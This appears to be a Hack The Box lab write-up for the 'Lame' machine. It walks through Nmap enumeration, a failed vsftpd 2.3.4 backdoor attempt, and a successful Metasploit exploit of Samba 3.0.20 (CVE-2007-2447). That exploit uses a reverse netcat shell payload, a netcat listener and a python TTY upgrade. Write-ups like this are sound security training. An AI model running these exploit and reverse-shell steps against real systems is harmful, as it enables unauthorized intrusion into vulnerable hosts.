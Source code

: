 # Hack The Box - Lame

IP Address: 10.10.10.3  
Difficulty: Easy  
Categories: FTP, SMB  
Tools Used: Nmap, smbclient, Metasploit, Netcat, Python

## Enumeration

1. Basic Nmap Scan:
nmap 10.10.10.3

2. FTP Version Detection:
nmap -sV -p 21 10.10.10.3  
Result: vsftpd 2.3.4 (known vulnerable)

## Exploiting FTP (vsftpd 2.3.4)

Launch Metasploit:
msfconsole

Use exploit:
use exploit/unix/ftp/vsftpd_234_backdoor  
set RHOSTS 10.10.10.3  
run

Result: Exploit unsuccessful, no shell opened.

## SMB Enumeration

Scan SMB ports:
nmap -sV -p 139,445 10.10.10.3

Check SMB shares:
smbclient -L 10.10.10.3 -N  
Result: Found Samba version 3.0.20

## Exploiting Samba 3.0.20 (CVE-2007-2447)

Launch Metasploit:
msfconsole

Use Samba exploit:
use exploit/multi/samba/usermap_script  
set RHOSTS 10.10.10.3  
set RPORT 139  
set LHOST 10.10.14.106   # Replace with your VPN IP  
set LPORT 4444  
set PAYLOAD cmd/unix/reverse_netcat  
run

In a new terminal, start Netcat listener:
nc -lvnp 4444

Result: [*] Command shell session 1 opened

## Upgrade to Full TTY (Optional)

If you want a stable shell:
python -c 'import pty; pty.spawn("/bin/bash")'

## Summary

Service: FTP  
Port: 21  
Version: vsftpd 2.3.4  
Exploit: exploit/unix/ftp/vsftpd_234_backdoor  
Result: ❌ Failed

Service: SMB  
Port: 139  
Version: Samba 3.0.20  
Exploit: exploit/multi/samba/usermap_script  
Result: ✅ Success

## Final Notes

- Even if Metasploit doesn’t show a shell, check your Netcat listener.
- Use smbclient when Nmap doesn’t reveal full SMB details.
- Always upgrade your shell to TTY for better usability.
- Replace LHOST with your actual tun0 IP before running reverse shell exploits.

Author: Srikanth A  
Platform: Hack The Box  
Machine: Lame  
Level: Easy

